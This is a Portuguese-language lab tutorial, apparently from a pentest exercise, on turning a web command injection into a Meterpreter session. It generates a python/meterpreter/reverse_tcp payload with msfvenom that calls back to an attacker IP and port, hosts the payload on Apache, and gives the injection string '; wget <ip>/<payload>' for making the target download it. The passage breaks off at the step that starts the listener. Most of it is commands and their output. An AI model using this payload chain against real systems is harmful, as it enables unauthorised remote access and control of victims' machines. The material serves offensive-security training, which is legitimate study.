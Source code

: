 # Command Injection com Meterpreter

**Objetivo:** repetir o exercício de invasão web com command injection, porém carregando um payload na máquina alvo para nos permitir acesso a um meterpreter.

## Criação do payload

Criaremos o payload através do aplicativo msfvenom do metasploit.

### Passo 1 - Procura e escolha o payload

Comando: `msfvenom -l payloads | grep <filtro>`

```
$ msfvenom -l payloads | grep meterpreter | grep python
                                       
    cmd/unix/python/meterpreter/bind_tcp                               Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection
    cmd/unix/python/meterpreter/bind_tcp_uuid                          Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection with UUID Support
...
    python/meterpreter/reverse_tcp                                     Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker
    python/meterpreter/reverse_tcp_ssl                                 Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Reverse Python connect back stager using SSL
    python/meterpreter/reverse_tcp_uuid                                Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker with UUID Support
    python/meterpreter_bind_tcp                                        Connect to the victim and spawn a Meterpreter shell
    python/meterpreter_reverse_http                                    Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_https                                   Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_tcp                                     Connect back to the attacker and spawn a Meterpreter shell
```
Selecionamos o payload **python/meterpreter/reverse_tcp**. 

### Passo 2 - Configuração e criação do payload

Para conhecer as opções de configuração do payload, usamos o msfconsole do metasploit:

```
$ msfconsole                                                                                    
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  
       =[ metasploit v6.4.84-dev                                ]
+ -- --=[ 2,547 exploits - 1,309 auxiliary - 1,683 payloads     ]
+ -- --=[ 432 post - 49 encoders - 13 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > use python/meterpreter/reverse_tcp

msf payload(python/meterpreter/reverse_tcp) > show options

Module options (payload/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


View the full module info with the info, or info -d command.

msf payload(python/meterpreter/reverse_tcp) > exit
```
Criamos o payload informando o IP e a porta de escuta:
```
$ msfvenom -p python/meterpreter/reverse_tcp LHOST="191.168.1.10" LPORT=6666 >>meu_payload.py
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 432 bytes
```
`>>meu_payload` informa o arquivo de saída com o payload. No caso, meu_payload.py gravado no diretório corrente.
```
$ ls *.py                                                                                
meu_payload.py
```
## Disponibilização do payload

### Passo 1 - iniciar o serviço web
```
$ sudo service apache2 start
[sudo] senha para OpsShadow: 
```
### Passo 2 - copiar o payload para o serviço web
```
$ sudo cp meu_payload.py /var/www/html/                                                         

$ ls /var/www/html                                                         
index.html  index.lighttpd.html  index.nginx-debian.html  meu_payload.py
```
### Passo 3 - copiar o payload para a máquina alvo
`; wget <ip>/<payload>`

## Execução do ataque

### Passo 1 - iniciar a escuta

